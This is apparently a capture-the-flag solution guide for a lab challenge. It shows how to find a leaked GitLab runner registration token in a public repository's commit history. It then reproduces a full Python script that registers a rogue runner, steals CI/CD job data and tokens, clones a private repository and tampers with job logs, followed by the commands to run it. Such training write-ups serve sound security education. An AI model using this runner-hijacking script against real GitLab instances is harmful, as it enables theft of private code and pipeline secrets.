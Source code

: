 # Git to It

*Solution Guide*

## Overview

In *Git To It*, players must browse a public GitLab site and retrieve a registration token for a GitLab runner. Players use the GitLab runner to compromise a continuous integration and continuous delivery (CI/CD) pipeline.

Below are some helpful resources that may provide some background as you solve this challenge.

- [Abusing GitLab Runners](https://frichetten.com/blog/abusing-gitlab-runners/): A blog post that explains what runners are, how they work, and how they can be exploited.
- [gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research): A GitHub repo that contains a Python script referenced in the blog post.

## Question 1

*What's the first flag found inside the public repository?*

1. In the gamespace, browse to GitLab (`https://gitlab.awkward.org`) and register for an account.

2. After you log in with your created account, on the left navigation bar, click the magnifying glass and then click `Explore`. This will show you the only **public project** called `InternalProject`. 

3. Enter the `InternalProject`. Near the top, you will notice there are 9 Commits. Click this to view all 9 commits. 

![c39-img-01](images/image-01.png)

4. Here, you will notice the last commit is called `remove flag`. Click on that one. 

5. Under **Changes**, you will see the first flag. In our case, the flag was `b2a048be`. This flag is generated dynamically so yours might be different. 


![c39-img-02](images/image-02.png)

## Question 2

*Once you obtain access to the information inside the private repository, what's the second flag located inside the README.md file?*

In the guide, under `Getting Started`, we are told that the public project also has a hidden runner registration token. Let's find that. 

1. Let's go back to the `InternalProject` and click the 9 commits again. 

![c39-img-03](images/image-01.png)

2. Out of all the commits, another interesting one is the one called `creds not for public use`. Click that one. You will see the Gitlab runner token. 

![c39-img-04](images/image-03.png)

2. With this Gitlab runner token, you are able to register a runner. There are multiple proof of concepts online that show you how to abuse Gitlab Runners. We will be using the [code](https://github.com/Frichetten/gitlab-runner-research/blob/master/hijack-runner.py) below to do so: 

>NOTE: We have added line numbers to the code below to reference a change we performed but, you can use [this link](https://github.com/Frichetten/gitlab-runner-research/blob/master/hijack-runner.py) to copy the original code. 

```python
#!/usr/bin/env python3

import os, sys, argparse, requests, json
from urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

parser = argparse.ArgumentParser(description="Abuse GitLab Runners")
parser.add_argument('--target', dest='target', help="The GitLab instance to target")
parser.add_argument('--register', dest='register', help="Register a token")
parser.add_argument('--attack', dest='attack', help="Use Runner token to steal data")
parser.add_argument('--tag', dest='tag', help="Taglist separated with commas")
parser.add_argument('--clone', dest='clone', action="store_true", help="Will clone the repo locally")
args = parser.parse_args()

if len(sys.argv) < 2:
    parser.print_help()


""" This function formats the taglist for json """
def format_tags(tags):
    if tags:
        return ", \"tag_list\": \"%s\"" % tags
    else:
        return ""


""" This function will take a registration token and convert it into a runner token.
    That second token can then be used to steal job data """
def register_runner(registration_token, gitlab_target, tags):

    tag_list = format_tags(tags)

    REGISTRATION_JSON = '{"info":{"name":"gitlab-runner","version":"10.5.0","revision":"10.5.0","platform":"linux","architecture":"amd64","features":{"variables":false,"image":false,"services":false,"features":false,"cache":false,"shared":false}},"token":"%s","description":"sneaky_runner","run_untagged":true,"locked":true%s}' % (registration_token, tag_list)
    headers = { "Content-Type": "application/json" }

    response = requests.post(
            gitlab_target + "/api/v4/runners", 
            data=REGISTRATION_JSON, 
            headers=headers,
            verify=False
    )

    token = json.loads(response.text)
    print("Token:", token['token'])


""" This function will spam job requests and when it gets one will dump it's contents
    to a file """
def attack_runner(runner_token, gitlab_target, tags, clone):

    tag_list = format_tags(tags)

    RUNNER_JSON = '{"info":{"name":"gitlab-runner","version":"11.2.0","revision":"11.2.0","platform":"linux","architecture":"amd64","executor":"shell","shell":"bash","features":{"variables":true,"image":false,"services":false,"artifacts":true,"cache":true,"shared":true,"upload_multiple_artifacts":true}},"token":"%s","last_update":"bc5514b213c064c154d14a6008513cc0"%s}' % (runner_token, tag_list)
    headers = { "Content-Type": "application/json" }

    print("Going to start spamming. Gotta go fast...")
    finished = False
    sess = requests.Session()
    while not finished:
        response = sess.post(
            gitlab_target + "/api/v4/jobs/request",
            data=RUNNER_JSON,
            headers=headers,
            verify=False
        )

        if response.status_code == 201:
            with open('grabbed_data.json','w') as w:
                w.write(response.text)
            print(response.text)

            data = json.loads(response.text)
            if clone:
                os.system('git clone ' + data['git_info']['repo_url'])

            id_num = data['id']
            resp_token = data['token']
            print("Stolen ID:", id_num)
            TROLL_JSON = '{"info":{"name":"gitlab-runner","version":"11.2.0","revision":"11.2.0","platform":"linux","architecture":"amd64","executor":"shell","shell":"bash","features":{"variables":true,"image":false,"services":false,"artifacts":true,"cache":true,"shared":true,"upload_multiple_artifacts":true}},"token":"%s","state":"success","trace":"\\u001b[0KHi friend! You\'ve been hacked :)\\n\\u001b[0;m"}' % resp_token
            resp = sess.put(gitlab_target + "/api/v4/jobs/" + str(id_num), data=TROLL_JSON, headers=headers, verify=False)
            print("Response code:", resp.status_code)

            exit()

if args.register:
    register_runner(args.register, args.target, args.tag)
if args.attack:
    attack_runner(args.attack, args.target, args.tag, args.clone)
```

4. Now, open VSCode and create a new text file. Here, you can paste the code above. 

5. After pasting the code, save the file to your kali VM Desktop. We named our file `hijack.py` but, you can use any name you want. Just make sure to use the correct name in future commands.

6. Now, we made one small change in line 75 of the code above. Instead of just having `git clone`, we changed it to `git -c http.sslVerify=False clone`. Make sure you do this as well. The rest of the code remains the same. 

The next step will be to run this code with the correct parameters. First, we want to register the runner we found. Then, we want to hijack running projects using the CI/CD pipeline. 

7. Open a terminal and perform the following command to go to your Desktop: 

```bash
cd /home/user/Desktop
```

8. Next, let's register the runner token we found: 

```bash
python3 /home/user/Desktop/hijack.py --target https://gitlab.awkward.org --register UmEBmz3HB-TNEZ4QowPm
```

The output of this command will give you a token. With this token, you should be able to check jobs that are running on projects using the CI/CD pipeline.

9. Now, we need to run the python code one more time with different parameters. These parameters will cause the script to utilize the runner's specific API by posting on the job requests. 

>NOTE: Your obtained token might be different than the one used in the command below. Make sure you use yours.

```bash
python3 /home/user/Desktop/hijack.py --target https://gitlab.awkward.org --attack Qnp9EqQUZoKo2vUpTpBo --clone
```

The command above might take up to one minute to run. You will know it worked when you see an output similar to this one: 

![c39-img-05](images/image-04.png)

This means you successfully cloned the private project and can now see its contents. 

10. Type the following commands in the terminal to retrieve the last flag: 

```bash
cd private-project/
cat README.md
```

You will obtain the last flag. 
